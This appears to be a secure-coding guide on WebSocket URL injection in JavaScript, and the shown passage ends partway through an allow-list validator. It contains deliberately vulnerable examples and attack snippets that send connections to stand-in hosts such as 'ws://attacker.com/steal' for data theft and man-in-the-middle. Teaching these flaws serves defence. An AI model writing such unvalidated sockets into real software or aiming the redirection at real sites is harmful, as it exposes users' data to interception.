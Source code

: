 ### Functions That Cause Vulnerabilities:

#### `new WebSocket()` With Undefined URL
```javascript
// ❌ Vulnerable code
function connectToWebSocket() {
    const wsUrl = location.search.split('ws=')[1];
    const ws = new WebSocket(wsUrl); // Dangerous!
}

// Attacker writes: "?ws=ws://evil.com/steal"
// Result: Connection to malicious server!
```

#### `WebSocket` With User Input
```javascript
// ❌ Vulnerable code
function createWebSocket(serverUrl) {
    const ws = new WebSocket(serverUrl); // User defines server!
}

// Attacker writes: "ws://attacker.com"
// Result: Data theft!
```

### Attack Scenarios:

#### Scenario 1: Data Theft
```javascript
// Attacker redirects connection to their server
const maliciousUrl = 'ws://attacker.com/steal';
const ws = new WebSocket(maliciousUrl);

// Malicious server receives sensitive data
ws.onmessage = function(event) {
    // Send data to attacker
    sendToAttacker(event.data);
};
```

#### Scenario 2: Man-in-the-Middle
```javascript
// Attacker creates proxy server
// Redirects connection to their server instead of real server
const proxyUrl = 'ws://attacker-proxy.com';
const ws = new WebSocket(proxyUrl);
```

### Secure Solutions:

#### 1. Validate WebSocket URL
```javascript
// ✅ Secure code
function isValidWebSocketUrl(url) {
    try {
        const urlObj = new URL(url);
        const allowedHosts = [
            'ws.example.com',
            'wss.secure.com',
            'chat.trusted.com'
        ];
        
        return (urlObj.protocol === 'ws:' || urlObj.protocol === 'wss:') &&
               allowedHosts.includes(urlObj.hostname);
```